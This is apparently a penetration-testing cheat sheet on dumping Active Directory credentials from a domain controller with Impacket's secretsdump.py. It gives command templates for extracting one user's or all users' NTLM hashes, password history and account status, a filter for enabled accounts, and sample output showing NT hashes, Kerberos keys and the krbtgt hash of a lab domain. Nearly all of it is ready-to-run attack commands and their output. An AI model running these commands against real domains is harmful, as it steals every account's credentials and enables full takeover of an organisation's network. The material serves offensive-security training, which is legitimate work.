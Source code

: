 #### Dump specific user

```plain
secretsdump.py <domain>/<domain-or-local-admin>:<password>@<domain-controller-ip> -just-dc-user [USERNAME]
```

```plain
secretsdump.py offsec.nl/administrator:Welkom1234@10.10.10.16 -just-dc-user johndo

Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
offsec.nl\johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
[*] Kerberos keys grabbed
offsec.nl\johndo:aes256-cts-hmac-sha1-96:06ee0aa90ea7dde71f087863ccd5adf227bb54beaa7b081e6512a60ada48473e
offsec.nl\johndo:aes128-cts-hmac-sha1-96:81596d7f55dd4f1a2e75acc62816df70
offsec.nl\johndo:des-cbc-md5:85b5a7a404fe6ed0
[*] Cleaning up...
```

#### Dump all hashes (hashcat ready)

```plain
secretsdump.py <domain>/<domain-or-local-admin>:<password>@<domain-controller-ip> -just-dc-ntlm
```

#### Dump all hashes including history

```plain
secretsdump.py <domain>/<domain-or-local-admin>:<password>@<domain-controller-ip> -just-dc-ntlm -history
```

#### Dump all hashes including history and user status

```plain
secretsdump.py <domain>/<domain-or-local-admin>:<password>@<domain-controller-ip> -just-dc-ntlm -history -user-status
```

Filter enabled accounts hashcat ready

```plain
grep -E 'status=Enabled' secretsdump-users-with-status.txt | awk '{print $1}'
```

#### Example dump all hashes NTLM format

```plain
secretsdump.py offsec.nl/administrator:Welkom1234@10.10.10.16 -just-dc-ntlm

Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
offsec.nl\johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\janedo:1110:aad3b435b51404eeaad3b435b51404ee:f3fe13546c4c0d2db443a0865626203b:::
[...SNIP...]
[*] Cleaning up...
```
